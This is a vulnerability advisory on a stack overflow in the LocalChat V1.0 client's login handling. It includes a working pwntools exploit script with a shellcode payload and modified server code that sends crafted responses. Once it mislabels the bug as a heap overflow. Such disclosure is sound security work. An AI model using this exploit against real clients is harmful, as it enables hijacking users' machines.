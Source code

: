 # LocalChat Stack Overflow Vulnerability

## Vulnerability Description

LocalChat is a tool for TCP and UDP communication. There is a stack overflow vulnerability in the client login feature, which can be triggered when the client receives a maliciously crafted response from a fake server.

This vulnerability can lead to arbitrary code execution, arbitrary command execution, acquisition of client machine privileges, and leakage of sensitive information.

## Product Information

### Product Name

- LocalChat

### Product Version

- V1.0

### Vendor Link

https://github.com/CStack90/LocalChat


## Attack Method

### Vulnerable Files

- LocalChat/client/main.c
- LocalChat/client/commands.c

### Vulnerability Type

Stack overflow

### Reverse Analysis

LocalChat/client/commands.c:login

After the client sends a login request, the server responds, and the client directly copies the response content into the token.

![alt text](assets/image.png)

The login is called in commande_detection, and token is passed as a parameter to commande_detection.

![alt text](assets/image-1.png)

The token from commande_detection is passed as a parameter to TCP_connect, which has a size of 16 bytes.

![alt text](assets/image-2.png)

![alt text](assets/image-3.png)

However, the client can receive data longer than 16 bytes, causing a stack overflow. It can be seen that up to 128 bytes can be copied.

![alt text](assets/image-4.png)

![alt text](assets/image-5.png)

This leads to a heap overflow that can overwrite the program's return address and hijack the program's control flow.

## Attack Process

The program operates in a loop waiting for user command inputs.

Users must perform a login operation first. Exiting the loop requires executing an exit operation, meeting the conditions needed for a stack overflow.


![alt text](assets/image-6.png)


Original return address

![alt text](assets/image-7.png)

Return address is controllable

![alt text](assets/image-8.png)

This client program also uses the system function, allowing this stack overflow to be combined with it to execute a large number of threatening commands, creating severe harm.

![alt text](assets/image-9.png)


Attack script (needs to be used with modified server binary):

```python
from pwn import *
from LibcSearcher import *
import sys

context(os='linux', arch='amd64', log_level='debug')

sl=lambda x:p.sendline(x)
sd=lambda x:p.send(x)
sa=lambda x,y:p.sendafter(x,y)
sla=lambda x,y:p.sendlineafter(x,y)
rc=lambda x:p.recv(x)
rl=lambda :p.recvline()
ru=lambda x:p.recvuntil(x)
ita=lambda :p.interactive()
slc=lambda :asm(shellcraft.sh())
uu64=lambda x:u64(x.ljust(8,b'\0'))
uu32=lambda x:u32(x.ljust(4,b'\0'))
getaddr=lambda :uu64(rc(6).ljust(8,b'\0'))
getbinsh=lambda :libc.search(b'/bin/sh').__next__()

def print_hex(bin_code):
    hex_string_with_spaces = ' '.join(f'{byte:02x}' for byte in bin_code)
    print(hex_string_with_spaces)
	
def gdba(x=''):
	if len(sys.argv) > 1:
		if sys.argv[1] == 'n':
			return
	if type(p)==pwnlib.tubes.remote.remote:
		return
	elif type(p)==pwnlib.tubes.process.process:
		# gdb.attach(p,x)
		gdb.attach(proc.pidof(p)[0], x)
		pause()
def getProcess():
	if len(sys.argv) > 1:
		if sys.argv[1] == 'r':
			return remote('127.0.0.1','2059')
	return process('./output/server')

p=getProcess()

# payload = b'a'*0x18+p64(0x000000000040193A)
retaddr = 0x00007ffff7d99ec0
shellcode = asm(pwnlib.shellcraft.amd64.linux.write(1, 'rsp', 0x100))
payload = shellcode.ljust(0x18,b'a') + p64(retaddr)[:6]

# payload = b'a'*0x8
# payload = b'a'*127
while 1:
    sla(b'Input fakedata:\n',payload)

ita()

```

Server code modification:

```c
void *login(void* args){
    /* Request informations */
    struct request_processing *parent_info = args;

    int separator_pos;//Index of the separator
    char username[MAX_USER_USERNAME_LENGTH], password[MAX_USER_PASSWORD_LENGTH];//Username and password got from request
    char token[TOKEN_SIZE];//Token generated

    char data[REQUEST_DATA_MAX_LENGTH];
    strcpy(data,(*parent_info).request.data);//Put request data in data

    printf("\t[Login-thread] - Received data (length : %ld): %s\n", strlen(data), data); //Log
    + puts("Input fakedata:");
    + char payload[256];
    + scanf("%s", payload);
    + struct request fake_request;
    + fake_request.type = 0; //There is an error
    + strcpy(fake_request.data,payload);
    + sendto ((*parent_info).sock, (void *) &fake_request, sizeof(struct request), 0, (struct sockaddr *) &(*parent_info).adr_client, sizeof((*parent_info).adr_client));
    /* parse data to username and password */
    //Get pos of separator
    for (separator_pos = 0; separator_pos < strlen(data) && data[separator_pos] != USER_PASSWORD_REQUEST_SEPARATOR; separator_pos++);
    
    //Check string param length
    if (separator_pos >= MAX_USER_USERNAME_LENGTH || strlen(data)-separator_pos > MAX_USER_PASSWORD_LENGTH){
        (*parent_info).request.type = -1; //There is an error
        strcpy((*parent_info).request.data,"Username or password are too long");
        sendto ((*parent_info).sock, (void *) &(*parent_info).request, sizeof(struct request), 0, (struct sockaddr *) &(*parent_info).adr_client, sizeof((*parent_info).adr_client));
        pthread_exit(NULL);
    } else if (separator_pos == 0 || separator_pos == strlen(data) || separator_pos == strlen(data)-1){
        (*parent_info).request.type = -1; //There is an error
        strcpy((*parent_info).request.data,"Username or password are empty");
        sendto ((*parent_info).sock, (void *) &(*parent_info).request, sizeof(struct request), 0, (struct sockaddr *) &(*parent_info).adr_client, sizeof((*parent_info).adr_client));
        pthread_exit(NULL);
    }

    /* Copy username and password from data */
    strncpy(username,data,separator_pos);
    username[separator_pos]='\0';
    strncpy(password,&data[separator_pos]+1,strlen(data)-separator_pos);

    if(findNickname(username,password,ACCOUNT_FILE,1) != 1){
        (*parent_info).request.type = -1; 
        strcpy((*parent_info).request.data,"Wrong username/password");
        sendto ((*parent_info).sock, (void *) &(*parent_info).request, sizeof(struct request), 0, (struct sockaddr *) &(*parent_info).adr_client, sizeof((*parent_info).adr_client)); 
    }else{
        /* Adding user to the shared memory */
        switch (add_user((*parent_info).shared_memory,username,&(*token))){
        case 0://All went right
            (*parent_info).request.type = 0;
            strcpy((*parent_info).request.data,token);
            sendto ((*parent_info).sock, (void *) &(*parent_info).request, sizeof(struct request), 0, (struct sockaddr *) &(*parent_info).adr_client, sizeof((*parent_info).adr_client)); 
            break;
        case 1://User already connected
            (*parent_info).request.type = -1; 
            strcpy((*parent_info).request.data,"User already connected");
            sendto ((*parent_info).sock, (void *) &(*parent_info).request, sizeof(struct request), 0, (struct sockaddr *) &(*parent_info).adr_client, sizeof((*parent_info).adr_client)); 
            break;
        default://Shared memory full of connected user
            (*parent_info).request.type = -1; 
            strcpy((*parent_info).request.data,"Maximum number of simultaneous connections reached");
            sendto ((*parent_info).sock, (void *) &(*parent_info).request, sizeof(struct request), 0, (struct sockaddr *) &(*parent_info).adr_client, sizeof((*parent_info).adr_client)); 
            break;
        }
    }
    pthread_exit(NULL);
}
```